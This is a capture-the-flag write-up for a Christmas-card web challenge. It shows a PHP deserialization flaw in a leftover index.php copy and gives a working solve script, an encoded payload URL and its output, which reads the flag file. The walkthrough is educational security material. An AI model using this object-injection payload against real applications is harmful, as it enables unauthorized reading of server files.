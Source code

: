# 17 - My XMas card

> We felt like it's time to start sending out some XMas cards, maybe you find something you like?
> 
> http://rsxc.no:20017

---

Let's have a look at the website. We got a nice xmas card! 🎅

![](00.png "")

Looks like the xmas card is loaded from `/index`. Let's have a look.

![](01.png "")

Directory listing is enabled, how convenient. I see a `flag.txt` in there...

![](02.png "")

Yeah, that would be too easy. Let's have a look at `index.php-1`.

![](03.png "")

That's interesting, seems to be a left over copy of `index.php` and the code looks to be vulnerable to a unserialization/LFI attack through the `$_GET['card']`-variable.

Let's create a `solve.php` script to help us a bit:

```php
<?php

class Card{
    public $file = "card.txt";    
    function __construct() {
    }
}

$card = new Card;
$card->file = 'flag.txt';
$sd = serialize($card);
$sd64 = base64_encode($sd);

echo "Serialized Card data: " . $sd . "\n";
echo "Base64 encoded Card data: " . $sd64 . "\n";
echo "\nGetting flag.txt...\n\n";
echo file_get_contents("http://rsxc.no:20017/?card=" . $sd64);
```

As we can see in `index.php-1`, we can provide a payload in the `$_GET['card']`-variable. The payload will then be unserialized and base64 decoded into a `Card`-instance before `$card->displayCard();` is called on the instance.

Our script creates a `Card`-object with `file` set to `flag.txt` instead of `card.txt`. Then we call `serialize($card)` to get the serialized version of this object. Then we just base64 encode the serialized object and send it as part of the URI:

```
http://rsxc.no:20017/?card=Tzo0OiJDYXJkIjoxOntzOjQ6ImZpbGUiO3M6ODoiZmxhZy50eHQiO30=
```

Let's run `solve.php`:

```bash
$ php solve.php
Serialized Card data: O:4:"Card":1:{s:4:"file";s:8:"flag.txt";}
Base64 encoded Card data: Tzo0OiJDYXJkIjoxOntzOjQ6ImZpbGUiO3M6ODoiZmxhZy50eHQiO30=

Getting flag.txt...

Finding your card in /files
RSXC{Care_needs_to_be_taken_with_user_supplied_input.It_should_never_be_trusted}
```


## Solution

The flag is: `RSXC{Care_needs_to_be_taken_with_user_supplied_input.It_should_never_be_trusted}`
